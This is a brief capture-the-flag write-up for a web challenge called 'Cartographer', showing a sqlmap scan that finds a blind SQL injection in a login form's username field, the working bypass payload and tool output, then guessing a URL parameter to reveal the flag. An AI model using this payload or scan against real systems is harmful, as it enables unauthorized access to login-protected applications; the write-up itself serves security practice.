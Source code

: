 # Cartographer

## Testing for sql injection

First off, capture the POST request to the website and save it to sql-post.txt.
```
~# sqlmap -v -r sql-post.txt --level 5 --risk 3

...

POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 361 HTTP(s) requests:
---
Parameter: username (POST)
	Type: boolean-based blind
	Title: OR boolean-based blind - WHERE or HAVING clause
	Payload: username=-3401' OR 8600=8600-- AHdZ&password=adm
	Vector: OR [INFERENCE]
---
[23:16:57] [INFO] testing MySQL
[23:16:57] [INFO] confirming MySQL
[23:16:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[23:16:58] [INFO] fetched data logged to text files under '/root/.sqlmap/output/88.198.233.174'
```

Sweet! This payload redirects to panel.php?info=home

Three is a text box which reads
“Cartographer
Is Still
Under Construction!”

## Guess game
Running sqlmap on ‘?info=‘ gives no result, yet playing around with the argument is a way to go.
Requesting panel.php?info=flag displays the flag
